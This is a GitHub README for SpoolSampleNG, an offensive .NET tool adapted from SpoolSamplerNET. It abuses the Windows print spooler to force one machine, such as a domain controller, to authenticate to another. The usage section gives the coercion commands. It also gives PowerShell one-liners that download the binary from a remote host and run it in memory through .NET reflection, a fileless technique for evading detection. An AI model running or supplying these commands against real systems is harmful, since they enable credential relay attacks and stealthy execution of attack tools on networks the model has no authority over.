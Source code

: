 This repository is a derivative of **leftp**'s [SpoolSamplerNET](https://github.com/leftp/SpoolSamplerNET) repository, modified primarily for .NET reflection support and adjusted syntax.

![Banner](https://github.com/tylerdotrar/SpoolSampleNG/assets/69973771/78294d18-fa8f-4391-870f-123c13c2ec33)

---

# Usage

- Usage from Disk via the Binary:

```powershell
# Force System to Authenticate to Another
# <binary>          <source>      <destination>
./SpoolSampleNG.exe dc1.evil.corp sql.evil.corp

# Return Help Page
./SpoolSampleNG.exe --help
```

- Usage from Memory via .NET Reflection:

```powershell
# Load Binary into Memory Locally
[System.Reflection.Assembly]::LoadFile("$PWD/SpoolSampleNG.exe")

# Load Binary into Memory Remotely
$WebClient = New-Object System.Net.WebClient
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/SpoolSampleNG.exe")
[System.Reflection.Assembly]::Load($DownloadData)

# Load Binary into Memory Remotely (one-liner)
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http(s)://<ip_addr>/SpoolSampleNG.exe'))

# Force System to Authenticate to Another
[SpoolSampleNG.Program]::Main(@('<source>','<destination>'))
```
